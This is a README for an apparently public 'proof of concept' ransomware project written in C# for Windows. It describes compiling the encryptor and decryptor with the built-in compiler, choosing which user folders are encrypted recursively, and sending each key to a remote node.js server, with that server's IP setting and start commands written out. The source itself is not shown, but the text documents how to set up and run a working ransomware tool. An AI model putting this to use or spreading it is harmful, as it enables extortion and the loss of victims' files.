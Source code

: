# C# Ransomware
Proof of concept ransomware for Windows in C#

Simple ransomware (no partial encryption or obfuscation mechanisms in place).

Can be compiled directly from the Windows 10 compiler, no need to install anything.

```csharp
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe en.cs
```

```csharp
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe de.cs
```

You can choose which folders of the current user to encrypt, works recursively.
You can also choose which extensions remain decrypted.

The key is sent to a remote node.js server, and a hash is generated on the client side in order to be able to match the key to the hash for decryption.

The server must be up and running and its address must be put in en.cs

```csharp
        string serverIP = "192.168.0.17"; // Server IP address or domain
```

To run the server

```csharp
npm init
npm install express
node main.js
```

Special care has been taken to avoid data corruption. A header is added at the top of each encrypted file in order to avoid double encryption and prevent data loss. Files won't be decrypted if header is absent.